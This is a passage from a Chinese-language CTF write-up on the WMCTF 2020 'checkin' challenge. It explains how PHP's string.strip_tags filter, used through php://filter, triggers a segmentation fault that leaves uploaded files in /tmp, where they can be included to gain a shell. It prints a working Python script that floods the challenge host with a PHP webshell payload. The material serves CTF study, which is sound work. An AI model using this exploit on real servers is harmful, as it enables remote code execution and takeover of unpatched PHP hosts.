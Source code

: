 
php代码中使用php://filter的过滤器strip_tags , 可以让 php 执行的时候直接出现 `Segment Fault` (段故障) , 这样 php 的垃圾回收机制就不会在继续执行 , 导致 POST 的文件会保存在系统的缓存目录下不会被清除而不想phpinfo那样上传的文件很快就会被删除，这样的情况下我们只需要知道其文件名就可以包含我们的恶意代码。

#### 漏洞修复

官方在PHP Version 7.0.28时已经修复该漏洞

https://www.php.net/ChangeLog-7.php

....

还是直接看这里把。。。。。



## 九、checkin 

https://cyc1e183.github.io/2020/08/04/WMctf2020-Checkin%E5%87%BA%E9%A2%98%E6%83%B3%E6%B3%95-%E9%A2%98%E8%A7%A3/

题目的环境特地设置了php 7.0.33版本，由于file_put_contents也可以利用伪协议，所以利用再利用string.strip_tags会发生segment fault，这时候上传一个webshell会以临时文件的形式保存在/tmp中（老知识点了），利用require_once包含getshell即可


生成临时文件的脚本：

```python
import requests
import string
import itertools

charset = string.digits + string.letters

host = "web_checkin2.wmctf.wetolink.com"
port = 80
base_url = "http://%s:%d" % (host, port)


def upload_file_to_include(url, file_content):
    files = {'file': ('evil.jpg', file_content, 'image/jpeg')}
    try:
        response = requests.post(url, files=files)
    except Exception as e:
        print e

def generate_tmp_files():
    file_content = '<?php system("xxxxxxxx");?>'
    phpinfo_url = "%s/?content=php://filter/write=string.strip_tags/resource=Cyc1e.php" % (
        base_url)
    print phpinfo_url
    length = 6
    times = len(charset) ** (length / 2)
    for i in xrange(times):
        print "[+] %d / %d" % (i, times)
        upload_file_to_include(phpinfo_url, file_content)

if __name__ == "__main__":
    generate_tmp_files()
```
